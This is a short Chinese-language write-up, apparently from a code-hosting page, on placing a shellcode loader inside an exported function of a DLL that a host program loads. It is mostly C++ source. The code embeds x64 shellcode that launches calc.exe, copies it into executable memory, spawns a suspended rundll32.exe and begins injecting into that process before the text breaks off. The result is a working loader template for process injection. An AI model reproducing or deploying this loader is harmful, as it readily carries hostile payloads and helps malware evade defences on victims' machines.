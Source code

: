 ![截图](0bff08fcb71d7b1130b51d33c6d39ed1.png)

![截图](aee86fcaeba27ea7d0850184373f4458.png)

两个导出函数, 均被调用, 那么shellcode加载器写在任意一个函数均可, 另外一个可以直接return

### 加载执行计算器

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <iostream>
using namespace std;
unsigned char payload[] = {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,
0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59
,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,
0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
unsigned int payload_len = sizeof payload - 1;
extern "C" __declspec(dllexport) int GetInstallDetailsPayload() {
  char* v7A = (char*)VirtualAlloc(0, payload_len, 0x3000u, 0x40u);
  memcpy((void*)v7A, payload, payload_len);
  struct _PROCESS_INFORMATION ProcessInformation;
  struct _STARTUPINFOA StartupInfo;
  void* v24;
  CONTEXT Context;
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.cb = 68;
  BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo,
    &ProcessInformation);
  if (result)
  {
    Context.ContextFlags = 65539;
    GetThreadContext(ProcessInformation.hThread, &Context);
    v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, payload_len, 0x1000u, 0x40u);
```